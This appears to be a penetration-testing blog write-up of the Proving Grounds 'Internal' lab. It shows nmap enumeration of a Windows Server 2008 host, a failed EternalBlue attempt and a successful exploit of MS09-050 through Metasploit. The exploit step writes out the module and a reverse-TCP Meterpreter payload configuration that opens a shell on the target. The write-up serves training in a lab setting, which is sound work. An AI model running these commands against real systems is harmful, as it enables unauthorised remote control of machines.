 ```yaml
---
title: "Proving Grounds - Internal"
date: 2024-10-22T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-internal/
categories: Labs
tags: [writeup]
---
```

Welcome to another Proving Grounds lab! In this session, we'll walk through the process of exploiting a Windows 2008 server. We'll leverage a variety of techniques, including vulnerability enumeration and Metasploit modules, to gain access to the machine.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.239.40 -oA ./fulltcp
```

The scan completes and reveals that the target is a Windows 2008 Server. Notably, port 445 is open, which often indicates SMB (Server Message Block), and port 3389, typically used for Remote Desktop Protocol (RDP), is also open.

```bash
PORT      STATE SERVICE            REASON          VERSION
53/tcp    open  domain             syn-ack ttl 125 Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
5357/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2
```

Upon further investigation, we find that Network Level Authentication (NLA) is not enforced on the RDP service, allowing us to probe the RDP login screen. This lack of NLA provides us with crucial information: usernames and operating system details are leaked on the login screen.

![image](https://github.com/user-attachments/assets/78dd432e-327c-4c2c-a487-bb3a20fcb25d)

Given the presence of port 445/tcp, we check if the server is vulnerable to the notorious MS17_010 (also known as EternalBlue), a vulnerability that can lead to remote code execution and was used in the infamous WannaCry ransomware attack. We perform a quick vulnerability scan for MS17_010.

The scan confirms that the machine appears vulnerable, 

![image](https://github.com/user-attachments/assets/8feea7b6-bb05-478a-8760-fa538f793d1b)

but when attempting to exploit it, we run into a STATUS_ACCESS_DENIED error. This indicates that the named pipes necessary to carry out the attack are inaccessible.

This step is crucial, as certain attacks, including EternalBlue, rely on accessing specific named pipes like srvsvc or spoolss. Unfortunately, none of the named pipes that we require are accessible, preventing us from exploiting MS17_010.

![image](https://github.com/user-attachments/assets/b7e161fa-ad57-47a3-b7db-6d308a166408)

### Another approach

After scanning all the services running on the target machine, we decided to use Nmap's --script vuln feature to check for any known vulnerabilities. In hindsight, it became clear that we might have dived too deep too quickly. Initially, we focused on specific attack vectors without fully exploring the overall landscape. Had we taken more time to enumerate and analyze the exposed services in detail from the beginning, we could have identified this vulnerability much earlier.

Thorough enumeration is often overlooked in favor of quicker exploitation attempts, but it’s a crucial step in any engagement. By taking the time to fully understand the environment, we can avoid missing out on valuable attack surfaces. In this case, had we conducted broader scans earlier, we would have spotted the SMB-related MS09-050 vulnerability right away, allowing us to streamline our approach and avoid unnecessary detours.

This serves as a reminder that, while diving deep into a particular service can sometimes yield results, a more methodical and patient approach to enumeration can save time and provide clearer insight into the full range of attack opportunities.
The output indicated that the target was vulnerable to MS09-050:

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds
| smb-vuln-ms09-050:
|   VULNERABLE:
|   SMBv2 exploit (MS09-050)
|     State: VULNERABLE
|     Risk factor: HIGH
|     Description: A vulnerability in the Microsoft Server Message Block (SMB) protocol version 2 (SMBv2) could allow remote code execution.
|     Disclosure date: 2009-09-08
|     Exploit results in a buffer overflow in the srv2.sys driver, allowing attackers to execute arbitrary code.
```

MS09-050 refers to a critical vulnerability in the Server Message Block Version 2 (SMBv2) protocol, specifically within the srv2.sys driver on affected Windows operating systems. This vulnerability, also known as CVE-2009-3103, was disclosed in September 2009 and affects Windows Vista, Windows Server 2008, and Windows 7 (pre-release versions). The flaw allows an attacker to craft a specially formed SMB packet and send it to a vulnerable system, which could lead to remote code execution due to a buffer overflow in the handling of the SMBv2 protocol.

This exploit became infamous not only for its severity but also because of its wormable nature. A wormable exploit can automatically propagate between systems without user interaction, making it particularly dangerous in unpatched environments, much like the later EternalBlue exploit that fueled the WannaCry ransomware outbreak in 2017. Wormable vulnerabilities like MS09-050 pose a significant risk to networks, as they can trigger widespread infections by hopping from one vulnerable machine to another, often within minutes.

While not as publicly destructive as EternalBlue, the MS09-050 exploit attracted significant attention in the security community because of the simplicity of the attack and the high privileges an attacker could gain. In an unpatched system, this vulnerability could allow an attacker to gain full control over a machine, potentially leading to the installation of malware, data exfiltration, or lateral movement within the target network.

Microsoft patched the vulnerability in a security update released in 2009, but the exploit remains a stark reminder of the importance of keeping systems up to date, especially in critical network services like SMB. Even now, older or misconfigured systems may still be susceptible, making it a prime target for legacy system attacks.
By reviewing our options, we determined that there is a readily available Metasploit module to exploit MS09-050. The exploit works by sending specially crafted SMB packets to the target system, which can trigger a buffer overflow in the srv2.sys driver, leading to remote code execution.

## Exploit

Here is how we proceeded with the exploitation:

First, we fired up Metasploit and used the following commands to load the appropriate module:

```bash
msfconsole -q
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Next, we set our target details, including the IP address of the Windows Server 2008 machine:

```bash
set RHOST 192.168.239.40
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 443
```

With the settings configured, we initiated the exploit:

![image](https://github.com/user-attachments/assets/a97e0ec0-2eb6-4960-b234-e89d12adbd8c)

The exploit successfully delivered the payload and granted us a Meterpreter shell on the target system.

## Credits

Thank you for following along with this write-up! My aim is to document these processes for future reference while providing insights that can help others in their penetration testing journeys. By sharing the thought process and techniques used in real-world scenarios, I hope to make the concepts more accessible to beginners and intermediate learners alike.
